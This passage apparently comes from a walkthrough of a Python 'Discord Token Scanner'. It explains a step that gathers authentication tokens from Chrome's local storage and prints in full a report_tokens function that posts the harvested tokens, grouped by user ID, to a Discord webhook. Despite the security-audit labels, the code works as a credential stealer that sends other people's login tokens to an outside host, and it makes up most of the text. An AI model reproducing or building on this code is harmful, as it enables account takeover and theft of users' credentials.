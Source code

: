 This function:
1. Takes a directory path where Chrome stores its local storage
2. Iterates through all files in the directory
3. Extracts potential tokens from each file
4. Validates tokens and organizes them by user ID
5. Returns a dictionary mapping user IDs to sets of their tokens

### 6. Webhook Reporting

#### 6.1 `report_tokens`

```python
def report_tokens(webhook_url: str, user_tokens: Dict[str, Set[str]]) -> None:
    """Send discovered tokens to a Discord webhook."""
    if not user_tokens:
        logger.warning("No valid tokens found to report")
        return

    fields = [
        {"name": f"User ID: {user_id}", "value": f"```\n{chr(10).join(tokens)}\n```"}
        for user_id, tokens in user_tokens.items()
    ]

    payload = {
        "content": "⚠️ **Discord Tokens Discovered** ⚠️",
        "embeds": [{
            "title": "Potential Security Issue",
            "description": "The following Discord authentication tokens were found in local storage:",
            "color": 15158332,  # Red color
            "fields": fields,
            "footer": {"text": "Generated by Discord Token Scanner"},
            "timestamp": None
        }]
    }

    try:
        status_code = make_post_request(webhook_url, payload)
        if status_code == 200:
            logger.info("Successfully reported tokens to webhook")
        else:
            logger.warning(f"Webhook returned status code: {status_code}")
    except Exception as e:
        logger.error(f"Failed to send tokens to webhook: {e}")
```

This function:
1. Takes a webhook URL and a dictionary of user tokens
2. Formats the tokens into a Discord embed message
3. Sends the message to the specified webhook
4. Handles success and error cases with appropriate logging

### 7. Main Execution
